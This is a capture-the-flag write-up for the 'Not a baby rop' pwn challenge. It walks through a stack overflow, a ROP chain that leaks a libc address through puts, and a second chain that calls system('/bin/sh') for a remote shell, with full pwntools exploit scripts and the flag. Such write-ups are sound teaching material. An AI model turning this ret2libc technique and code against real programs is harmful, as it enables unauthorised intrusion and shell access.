







# Not a baby rop

	You already know what's up 😉
	warzone.hackrocks.com:7770

<!-- MarkdownTOC -->

- [Pwn it](#pwn-it)
	- [Leak Libc Address](#leak-libc-address)
	- [Find the Libc version](#find-the-libc-version)
	- [Use Libc to get system\('/bin/sh'\)](#use-libc-to-get-systembinsh)
- [Script](#script)
- [Flag](#flag)

<!-- /MarkdownTOC -->

## Pwn it



First to notice, is mitigations : 

- No Canary
- No Stack execution
- No PIE, so the code of the binary wouldn't move

Also, binary is dynamically linked, and not stripped(so debug step should be easier).




As we confirmed there is a Segfault error, we now try to see if the RIP is overwritten, and the offset of this overflow :



The offset, then, is 136 (`cyclic -o 0x6261616a`)

Plus, the libc address is randomized : 



So, the plan to pwn the bin would look like to :

- Leak the libc with puts@plt(puts@got) + ret2main (mine is ret2entrypoint)
- Search for the libc version from that leak
- Use this libc to call `system('/bin/sh')`

### Leak Libc Address

So, to make the ropchain to leak a libc address, it should look like this : 

	PADDING + POP RDI ; RET + PUTS@GOT + PUTS@PLT + ENTRYPOINT

```py
from pwn import *

HOST = "warzone.hackrocks.com"
PORT = 7770

elf = ELF('not-a-baby-rop')

DEBUG = True

if DEBUG:
	libc = elf.libc
	p = elf.process()
else:
	# libc = ELF('future_libc.so') # We don't have it yet
	p = remote(HOST, PORT)

rop = ROP(elf)

offset = 136

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(elf.symbols.got.puts),
	p64(elf.symbols.plt.puts),
	p64(elf.entrypoint)
	])

_ = p.recvuntil(b"let's see what u got\n")
p.sendline(payload)
leaked = unpack(p.recvuntil(b"let's see what u got")[:6], 'all')

print("Leaked", hex(leaked))
```


### Find the Libc version

From the previous step, we get the puts address from loaded libc. Then we can find the libc version with this data, with Blukat DB : 



### Use Libc to get system('/bin/sh')

As we have the right libc version, we can load it in our script as an elf, then set its base address to use it in a right way.

So this second payload should look like : 

	PADDING + POP RDI ; RET + /BIN/SH POINTER + SYSTEM

```py
libc.address = leaked - libc.symbols.puts

print("Libc @ ", hex(libc.address))

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(next(libc.search(b'/bin/sh\x00'))),
	p64(libc.symbols.system)
	])

p.sendline(payload)
p.interactive()
```

## Script

```py
from pwn import *

HOST = "warzone.hackrocks.com"
PORT = 7770

elf = ELF('not-a-baby-rop')

DEBUG = False

if DEBUG:
	libc = elf.libc
	p = elf.process()
else:
	libc = ELF('libc.so')  # libc6_2.28-10+deb10u1_amd64
	p = remote(HOST, PORT)

rop = ROP(elf)

offset = 136

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(elf.symbols.got.puts),
	p64(elf.symbols.plt.puts),
	p64(elf.entrypoint)
	])

# context.log_level = 'debug'

_ = p.recvuntil(b"let's see what u got\n")
p.sendline(payload)
leaked = unpack(p.recvuntil(b"let's see what u got")[:6], 'all')

print("Leaked", hex(leaked))
libc.address = leaked - libc.symbols.puts

print("Libc @ ", hex(libc.address))

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(next(libc.search(b'/bin/sh\x00'))),
	p64(libc.symbols.system)
	])

p.sendline(payload)
p.interactive()
```



## Flag

	flag{its_4_s1mpl3_r0pppp}